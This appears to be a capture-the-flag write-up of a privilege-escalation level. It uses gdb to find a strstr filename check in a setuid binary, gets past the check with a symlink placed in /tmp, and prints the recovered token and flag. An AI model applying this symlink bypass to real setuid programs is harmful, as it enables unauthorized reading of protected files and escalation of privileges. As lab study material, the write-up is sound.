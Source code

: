 # LEVEL 08

In our home directory, we see an executable with suid/guid, as well as a token file we don't have access to:
```
>$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
>$ ./level08
./level08 [file to read]
```
If we try with a file we own, the executable displays its content:
```
>$ echo 'hi' > /tmp/test && ./level08 /tmp/test
hi
```
but it won't work with the token file:
```
>$ ./level08 token
You may not access 'token'
```
If we execute the program and inspect it with gdb:
```
>$ gdb level08
>$ (gdb) disass main
[..]
0x080485af <+91>:	mov    DWORD PTR [esp+0x4],0x8048793 <---- "token"
0x080485b7 <+99>:	mov    DWORD PTR [esp],eax
0x080485ba <+102>:	call   0x8048400 <strstr@plt>
[..]
```
we see that it try to find the substring `token` using `strstr` function to check if the user try to open the file `token`. We can **bypass** this protection **with a symbolic link** who don't have the string `token` in his absolute path:
```
>$ ln -s $(pwd)/token /tmp/fakeTiken
>$ ls -l fakeTiken
lrwxrwxrwx 1 level08 level08 24 Jun  7 20:21 /tmp/fakeTiken -> /home/user/level08/token
```
Now if we run the program with this file:
```
>$ ./level08 /tmp/fakeTiken
quif5eloekouj29ke0vouxean
```
we use this token as passwrod on `su flag08` then we get the flag: `25749xKZ8L7DkSCwJkT9dyv6f`

#### Vulnerability:
No check on real user => Privilege escalation via symlink